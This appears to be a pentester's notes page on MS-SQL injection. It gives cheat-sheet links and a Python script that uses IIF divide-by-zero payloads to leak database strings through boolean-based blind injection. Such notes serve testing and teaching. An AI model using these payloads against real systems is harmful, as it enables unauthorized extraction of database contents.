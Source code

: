 # MS-SQL Injection

## Cheatsheets

* [https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Error Based SQL Injection

[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-\(mssql\).pdf](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-%28mssql%29.pdf)

## Blind SQL Injection

### Boolean Based Blind

In the case of boolean based blind we can use the [IIF\(\)](https://docs.microsoft.com/en-us/sql/t-sql/functions/logical-functions-iif-transact-sql?view=sql-server-2017) function to extract data.  Say our injection point required an integer placed at a specific point such as:

```text
demo.asp?id=1
```

If we can't inject via stacked queries or other methods we can execute basic queries by utilizing the `IIF` Boolean result which is converted to an integer to guarantee execution.  This assumes a function `exploit` which returns a True or False response:

```python
def binary_search(payload):
	first = 0
	last = 127
	while first <= last:
		i = (first+last)/2
		eq = 'IIF({0}={1},1,1/0)'.format(payload,i)
		gt = 'IIF({0}<{1},1,1/0)'.format(payload,i)
		lt = 'IIF({0}>{1},1,1/0)'.format(payload,i)
		if exploit(eq) == True:
			return i
		elif exploit(gt) == True:
			last = i - 1
		elif exploit(lt) == True:
			first = i +1
		else:
			return 0

def leak_string(query, length=0):
	while True:
		payload = 'IIF(LEN({0})>{1},1,1/0)'.format(query, length)
        if exploit(payload) == False:
        	break
        length += 1
	print '[+] Length of {0}'.format(length)
	name = ''
	for i in range(1, length+1):
		print name
		name += chr(binary_search('ASCII(SUBSTRING({0},{1},1))'.format(query,i)))
	return name
```



